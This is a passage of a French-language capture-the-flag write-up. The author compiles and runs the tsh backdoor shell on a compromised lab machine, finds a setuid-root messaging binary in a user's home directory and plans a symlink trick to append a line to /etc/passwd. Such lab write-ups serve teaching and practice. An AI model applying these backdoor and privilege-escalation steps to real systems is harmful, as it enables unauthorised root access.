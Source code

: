 ```bash
gcc -O -W -Wall -o tshd $(SERVER_OBJ) -lutil -DLINUX -m32
```

Plus qu'à compiler (make linux) puis on upload/exec (`./tshd`). On peut maintenant se connecter sur notre nouveau shell de luxe :)  

`tsh` remplace très bien SSH car il offre un TTY et permet d'envoyer / récupérer des fichiers à la manière de `scp`.  

Une fois connecté on s’aperçoit en listant `/home` que l'utilisateur `reynard` a laissé des permissions à ses données en lecture pour tous.

```
/home/reynard:
total 44
drwxr-xr-x 3 reynard reynard 4096 Nov  7 09:54 .
drwxr-xr-x 5 root    root    4096 Nov  4 10:57 ..
-rw------- 1 reynard reynard    0 Nov  7 09:54 .bash_history
-rw-r--r-- 1 reynard reynard  220 Nov  4 10:57 .bash_logout
-rw-r--r-- 1 reynard reynard 3392 Nov  4 10:57 .bashrc
-rwsr-xr-x 1 root    root    8999 Nov  6 17:10 msg_root
-rw-r--r-- 1 reynard reynard  675 Nov  4 10:57 .profile
-rw-r--r-- 1 reynard reynard  154 Nov  5 23:20 readme.txt
-rwxr-xr-x 1 reynard reynard  137 Nov  4 19:59 startweb.sh
drwxr-xr-x 3 reynard reynard 4096 Nov  4 19:32 web
```

Highway to shell
----------------

On relève principalement la présence d'un exécutable setuid root nommé `msg_root`.  

Le contenu du fichier `readme.txt` dans le même dossier est le suivant :  

```
msg_root is a quick way to send a message to the root user. 
Messages are written to /tmp/msg.txt

usage: 
msg_root "username" "this message is for root"
```

Si on exécute le programme de cette façon :  

```console
$ ./msg_root "plop" "ceci est mon message"
```

On retrouve dans le fichier `/tmp/msg.txt` :  

```
plop: ceci est mon message
```

L'ouverture du fichier semble se faire en mode append et on se dit que l'on a raté une occasion d'ajouter une ligne à `/etc/passwd` en faisant préalablement un lien symbolique.  

On récupère le fichier via le client tsh sur la machine hôte :  
